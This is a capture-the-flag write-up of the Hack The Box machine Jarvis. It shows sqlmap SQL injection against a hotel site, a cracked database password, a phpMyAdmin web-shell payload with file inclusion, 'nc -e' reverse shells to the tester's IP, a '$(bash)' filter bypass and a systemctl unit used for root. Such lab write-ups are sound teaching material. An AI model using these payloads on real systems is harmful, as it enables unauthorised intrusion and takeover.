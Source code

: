 ```yaml
---
title:     "Hack The Box - Jarvis"
tags: [linux,medium,sudo,setuid,sqli,phpmyadmin,python]
layout: post
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/194>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/2.png)

Got some details on the bottom of the page.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

Now we try to inject the payload in the URL. And I got some kind of Hash.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/8.png)
I tried cracking that, but doesn't worked maybe its not a hash, so lets try something with SQLMAP

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/10.png)

``/phpmyadmin``<br/>

``DBadmin:imissyou``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/12.png)

><https://www.exploit-db.com/exploits/44928>

According to the exploit we need to inject the payload in SQL Query.<br/>
```select '<?php system($_GET["cmd"]);?>'```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/13.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data:

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/18.png)

Lets see how ``simpler.py`` works<br/>
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation:

Started my enumeration script and found there is a SUID binary.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/20.png)

Started my listener<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/21.png) <br/>
I'm Root

